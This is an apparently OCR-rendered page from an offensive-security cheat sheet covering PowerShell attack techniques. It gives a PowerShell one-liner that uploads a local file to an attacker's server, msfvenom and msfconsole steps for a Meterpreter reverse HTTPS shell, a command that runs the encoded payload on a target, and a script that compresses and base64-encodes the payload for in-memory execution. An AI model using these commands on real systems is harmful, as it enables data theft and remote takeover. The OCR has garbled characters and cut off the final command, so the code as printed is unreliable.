 ### Powershell data exfil

```text
Script will send a file ($filepath) via http to server ($server) via POST request. 
Must have web server listening on port designated in the $server
 
powershell.exe -noprofile -noninteractive -command 
"[S;stem.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $server="""http:// YOUR_SPECIFIED IP / folder """;
$filepath="C:\master.zip" $http= new=object System.Net.WebClient;
$response= $http.UploadFile($server,$filepath);" 
```

## Using powershell to launch meterpreter from memory

```text
Need Metasploit v4.5+ (msfvenom supports Powershell) 
Use Powershell (x86) with 32 bit Meterpreter payloads 
encodeMeterpreter.psl script can be found on next page 
```

### On attack boxes

```text
1. ./msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=1.1.1.1 LPORT=443 audit.psl 
2. Move audit.psl into same folder as encodeMeterpreter.psl 
3. Launch Powershell (x86) 
4. powershell.exe -executionpolicy bypass encodeMeterpreter.psl 
5. Copy the encoded Meterpreter string
```

### Start listener on attack box

```text
1. ./msfconsole 
2. use exploit/multi/handler 
3. set payload windows/meterpreter/reverse https 
4. set LHOST 1. 1. 1. 1 
5. set LPORT 443 
6. exploit -j 
```

### On target \(muse use powershell\(x86\)\)

```text
1. powershell. exe -noexi t -encodedCommand paste encoded Meterpreter 
string here 
PROFIT 
```

### Encodemeterpreter.ps1 \[7\]

```text
# Get Contents of Script
$contents = Get-Content audit.psl
# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]: :Compress
$cs =New-Object IO.Compression.DeflateStream ($ms,$action)
$sw =New-Object IO.StreamWriter ($cs, [Text.Encoding] ::ASCII)
$contents I ForEach-Object {$sw.WriteLine($ I)
$sw.Close()
# Base64 Encode Stream
$code= [Convert]: :ToBase64String($ms.ToArray())
$command= "Invoke-Expression '$(New-Object IO.StreamReader('$(New-Object
IO. Compression. DeflateStream ('$(New-Object IO. t4emoryStream
```

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
